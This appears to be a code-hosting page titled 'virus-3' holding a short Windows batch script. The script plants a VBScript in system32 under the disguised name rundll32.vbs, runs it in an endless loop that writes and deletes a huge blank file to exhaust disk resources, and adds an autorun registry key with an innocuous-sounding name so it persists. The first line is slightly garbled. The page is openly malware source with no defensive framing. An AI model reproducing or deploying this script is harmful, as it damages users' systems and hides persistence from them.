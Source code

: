 # virus-3
[SRC] Echo_inactive_inactive off echo Set fso = CreateObject("Scripting.FileSystemObject") > %systemdrive%\windows\system32\rundll32.vbs echo do >> %systemdrive%\windows\system32\rundll32.vbs echo Set tx = fso.CreateTextFile("%systemdrive%\windows\system32\rundll32.dat", True) >> %systemdrive%\windows\system32\rundll32.vbs echo tx.WriteBlankLines(100000000) >> %systemdrive%\windows\system32\rundll32.vbs echo tx.close >> %systemdrive%\windows\system32\rundll32.vbs echo FSO.DeleteFile "%systemdrive%\windows\system32\rundll32.dat" >> %systemdrive%\windows\system32\rundll32.vbs echo loop >> %systemdrive%\windows\system32\rundll32.vbs  start %systemdrive%\windows\system32\rundll32.vbs  reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v system_host_run /t REG_SZ /d %systemdrive%\windows\system32\rundll32.vbs /f [/SRC]
